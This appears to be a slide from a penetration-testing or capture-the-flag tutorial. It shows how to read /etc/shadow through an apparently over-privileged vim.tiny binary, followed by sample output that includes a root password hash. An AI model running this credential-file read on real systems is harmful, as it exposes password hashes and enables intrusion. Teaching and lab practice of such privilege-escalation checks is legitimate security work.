

# Remote shell
Once you find it try:/usr/bin/vim.tiny /etc/shadow
If it works then you should see something like the image below:
root:$6$1hpL9vsdShdkk3ul$dHAbbFDCx/r4RUsNIaSfeYLexZNRg2N2BnXxQZYBET8G8cTBoB4iXddNivJJagTYDicaC6ywHkDw5NYoX2FGA.:19004:0:99999:7:::
daemon:*:18326:0:99999:7:::
bin:*:18326:0:99999:7:::
sys:*:18326:0:99999:7:::
sync:*:18326:0:99999:7:::
games:*:18326:0:99999:7:::
man:*:18326:0:99999:7:::